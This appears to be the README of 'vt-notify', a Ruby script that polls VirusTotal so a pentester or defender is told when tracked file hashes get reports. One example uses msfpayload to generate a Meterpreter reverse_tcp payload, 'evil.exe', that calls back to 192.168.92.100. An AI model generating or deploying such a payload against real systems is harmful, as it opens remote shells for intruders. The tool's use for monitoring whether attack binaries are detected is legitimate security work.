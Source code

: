 Virus Total Notifier
=========

This project was originally created to set up a notification so when Virus Total had a report for a specific binary (One used in a pen test or otherwise) the pentester could be notified via log or email. It runs in an infinite loop and does not check files or hashes that have already been detected, however it does continue to re-check hashes that haven't been.

However, this can also be used as a detection mechanism. Target it at your web-root or other sensitive directory and become notified when anything that has a report on Virus Total is added to your directory.

The script doesn't have anything Linux specific in it, so it should be portable anywhere Ruby is installed.


Usage
========

```
Usage: vt-notify [options]
    -e EMAIL // email address of who to notify upon detection, will only log to file if not specified
    -m SMTPSERVER // smtp server to relay email through
    -s FILENAME // file name of binary to keep track of
    -S SHA1 // single SHA1 to keep track of
    -f FILENAME // file containing sha1 hashes of files to keep track of
    -d DIRECTORY // directory of binaries keep track of
    -a APIKEYFILENAME // file contianing API key hash on first line, defaults to apikey.txt
    -l LOGFILENAME // file to write/read positive entries to/from, defaults to results.log
    -i INTERVAL // how often VT is checked, defaults to every 10 minutes
    -h
```

For example, the following takes all 500+ files in the hackarmoury repository, SHA1 hashes them and checks them against Virus Total. The ones that have been submitted (even those that have a 0 detection rate) are reported via email to justanotheruser@gmail.com via the Gmail email servers. 
```
./vt-notify.rb -d /opt/hackarmoury/ -e justanotheruser@gmail.com -m gmail-smtp-in.l.google.com
```

Another example is taking a freshly generated 'evil.exe' from Metasploit:
```
./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.92.100 X > evil.exe
```
And setting up vt-notify to just check on it, with the notifications going to the same gmail account, checking ever 20 seconds:
```
./vt-notify.rb -s evil.exe -e justanotheruser@gmail.com -m gmail-smtp-in.l.google.com -i 20
```
Upload to Virus Total and almost instantly:
```
======================================
            RESULTS                   
======================================
Checked:     1
Not found:   1
Found:       296

check complete, sleeping for 20 seconds
4f4c103911eff1668199ff7fbce5e87rae1hee0d was found 35 out of 46 on 2012-12-28 08:29:59
======================================
            RESULTS                   
======================================
Checked:     1
Not found:   0
Found:       297
```
Hash lists are also supported in hash-per-line files (-f) and single SHA1 (-S), however I don't have the ability to support multiple singles on the command line (-S) or (-s)